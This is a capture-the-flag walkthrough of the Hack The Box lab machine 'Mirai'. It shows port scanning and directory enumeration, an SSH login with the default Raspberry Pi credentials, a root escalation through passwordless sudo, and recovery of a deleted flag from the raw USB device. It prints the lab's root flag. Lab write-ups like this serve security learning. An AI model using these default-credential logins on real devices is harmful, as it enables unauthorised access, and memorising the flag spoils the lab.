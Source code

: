 ![](pics/logo.png)

# Mirai (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.82.32 -- -sV -o port_scan

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp    open  domain  syn-ack dnsmasq 2.76
80/tcp    open  http    syn-ack lighttpd 1.4.35
1879/tcp  open  upnp    syn-ack Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    syn-ack Plex Media Server httpd
32469/tcp open  upnp    syn-ack Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Examine Port 80 - lighttpd Server

Accessing port 80 via the browser, leaves us with an empty page. Using gobuster we discover an interesting directory as well as a javascript file.

```
└──╼ $ gobuster dir -u "10.129.82.32" -w /usr/share/wordlists/dirb/common.txt  
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.82.32
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/19 12:48:53 Starting gobuster
===============================================================
/admin (Status: 301)
/swfobject.js (Status: 200)
===============================================================
2021/01/19 12:49:18 Finished
===============================================================
```

Taking a look at the admin directory (via the browser), we see the default config page for Pi-hole.

![](pics/admin_website.png)

Pi-hole is a Linux network-level advertisement and Internet tracker blocking application which acts as a DNS sinkhole and optionally a DHCP server, intended for use on a private network.

## Gaining an Initial Foothold

As Pi-holes are usually installed on a Raspberry Pi, I tried to login as the default user via ssh (pi:raspberry). And it worked!

```
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

## Privilege Escalation

We also see that pi is in the sudo group.

```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

So gaining a root shell is also very easy:

```
pi@raspberrypi:~ $ su -
Password: raspberry

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# id
uid=0(root) gid=0(root) groups=0(root)
```

So basically we have pwned the machine. Atleast that's what I've thought. When trying to read the root flag it states:

```
root@raspberrypi:~# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

So we run to inspect the various filesystems:

```
root@raspberrypi:~# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /me
```

We see the filesystem /dev/sdb which has been mounted on /media/usbstick. A USBSTICK! That's what we are looking for.

```
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Hmm... So what now? Maybe we are lucky and the files are deleted but not yet overwritten. A further assumption is, that the flag is a human readable string as in the other challenges. If so, we can try to run `strings` on `/dev/sdb` to see if the flag is still in memory.

```
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

There it is! A suspicious string that looks like a flag. Let's try to submit it ... And it works! Machine pwned!



